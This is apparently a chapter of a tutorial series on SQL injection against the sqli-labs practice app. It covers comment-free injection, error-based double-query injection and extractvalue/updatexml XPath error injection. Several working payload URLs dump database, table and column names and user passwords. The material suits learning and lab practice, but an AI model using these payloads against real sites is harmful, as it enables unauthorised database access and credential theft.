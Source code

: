 # Chapter-04

This section will include the basics for blind sql injection. It will cover a few topics that will lay the foundation for blind sqli injection. 

## Work around for cases where comments can't be used

In some cases we may not not be able to use comments in the url to perform sql injection. In such cases we may have to resort to using ```AND``` / ```OR``` operator with appropriate closing element.

Here is an example from lesson-1 of sqli-labs - 

The url will look like this - 

```
http://localhost/sqlilabs/Less-1/?id=1' or '1
```

or 

```
http://localhost/sqlilabs/Less-1/?id=1' and '1
```

Let us now also have a look at the SQL query which gets executed at the backend. 

The given SQL query at the back-end looks like this - 

```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

```$id``` gets replaced by the id that the user specifies at the url. 

We inject either ```1' or'1``` or ```1' and '1``` into the url. The sql query after adding ```1'``` and balancing it with ```'1``` looks somewhat like this -  

```
SELECT * FROM users WHERE id='1' or '1' LIMIT 0,1
```

or 

```
SELECT * FROM users WHERE id='1' and '1' LIMIT 0,1
```

:warning: Adding ```'1``` with ```AND``` or ```OR``` balances the SQL Query at the backend. 

## A few roadbumps 

Using ```AND``` or ```OR``` in the sql query has its own drawbacks. Some of them are mentioned below - 

1.  ```ORDER BY``` clause doesn't work well with ```AND``` and ```OR```. Using order-by in such a case will result in no error being thrown irrespective of the number specified in the order by clause.

    Workaround for such a case would be brute force with ```select 1, 2, 3 ...n``` and find the number of columns used in the query. 

1.  ```SELECT * FROM``` also does not work. The ```FROM``` clause when used with ```AND``` or ```OR``` results in an error being thrown. The work around for this error would be to use ```Double SQL injection``` or ```Blind SQL injection``` which is explained in detail below. 

:warning: Double query injection can only be used in cases where the webpage displays some form of an error when the query is broken. If the webpage shows no error message, ```Double Query Injection``` cannot be performed and we may have to resort to ```Blind SQL Injection```.

:boom: Manually performing ```Blind SQL injection``` will take lots of time, hence it has to be automated by making using of an automated script.

## Double Query SQL Injection

The double query SQL injection is a technique that uses a bug in ```MySql``` to extract information. The bug causes the mysql query to throw an error which contains the information that we require. 

There are a few ways in which we can apply double query sql injection - 

1.  By using ```rand()```, ```count()``` and ```group by``` clause together.
1.  By using ```extractvalue()```
1.  By using ```updatexml()```

:warning: The last two ways of injection come under ```XPATH``` injection, where an ```XPATH``` error is used to dump the error.

### Double query injection using rand(), count() and group by

The bug is caused when we use ```rand()```, ```count()``` and ```group by``` clause together. 

[This](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c) blog explains in great detail how to reproduce the bug so that we can exploit it and get the useful information. 

This bug can be reproduced by executing this statement - 

```
select count(*), concat((select database()), floor(rand() * 2)) as hack from information_schema.tables group by hack;
```

:warning: The above statement may have to be executed multiple times to see the error. 

The error message will look somewhat like this - 

```Error Code: 1062. Duplicate entry 'security1' for key '<group_key>'```

If you notice carefully, the error message contains the name of the database, i.e. (security). 

Now, the above query can be further manipulated to get more interesting information.

In order to use this in a URL we will have to make slight modifications to the query which are explained below - 

1.  Since this query will be used with an ```AND``` operator, we will have to wrap our payload within another ```MySql``` statement. Wrapping the query inside another query requires us to use the alias in the wrapper query.

The resultant URL will look somewhat like this in the end - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select database()), '+', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)--+
```

The above ```URL``` can be further modified to obtain the table column names. 

The table names can be obtained by changing the ```limit 0,1``` term. We get different values by choosing different terms such as ```limit 1,1```, ```limit 2,1``` or ```limit 3,1```. 

The ```URL``` will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

The column names can be obtained by following a similar strategy. The ```URL``` for it will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select column_name from information_schema.columns where table_name='users' limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

Again, changing the ```limit 0,1``` term yields different results. 

Finally, once we know the column names and the table names, we can dump both the username and password.

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select password from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select username from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

We can also do something like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and 0 union select 1, group_concat(username), group_concat(password) from users;
```

### Double query injection using ExtractValue(xml_frag, xpath_expr)

This method falls under XPATH injection. 

> XPath is a query language for selecting nodes from an XML document. In addition, XPath may be used to compute values from the content of an XML document. 

This method is comparitively easier to implement then the above method. 

> 	The ExtractValue() function is used to extract a value from an XML string using XPath notation. It returns the text (CDATA) of the first text node which is a child of the element or elements matched by the XPath expression.

The ```ExtractValue()``` function takes in the following parameters - 

1.  A fragment of XML markup ```xml_frag```
1.  An XPath expression ```xpath_expr```(also known as a locator)

The following query can be used to dump information by using the ```ExtractValue()``` function. 

```sql
?sort=3 , extractvalue(null, concat("::", (select database()), "::")) --+
```

:warning: In the above url, ```AND``` can also be used between ```?sort=3``` and ```extractvalue()```. 

[Chapter-12](#) contains the solutions to some of the problems based on this method.

### Double query injection using UpdateXML(xml_target, xpath_expr, new_xml)

> This function replaces a single portion of a given fragment of XML markup xml_target with a new XML fragment new_xml, and then returns the changed XML. The portion of xml_target that is replaced matches an XPath expression xpath_expr supplied by the user.

:warning: If no expression matching xpath_expr is found, or if multiple matches are found, the function returns the original xml_target XML fragment. All three arguments should be strings.

This function can be used in the following way to dump the data present in the database -

```sql
?sort=3 , updatexml(null, concat("::", (select database()), "::"), null) --+
```

[Chapter-12](#) contains the solutions to some of the problems based on this method.

That will be all for Double Query SQL Injection. :star:

## :star2: Resources 

1.  https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c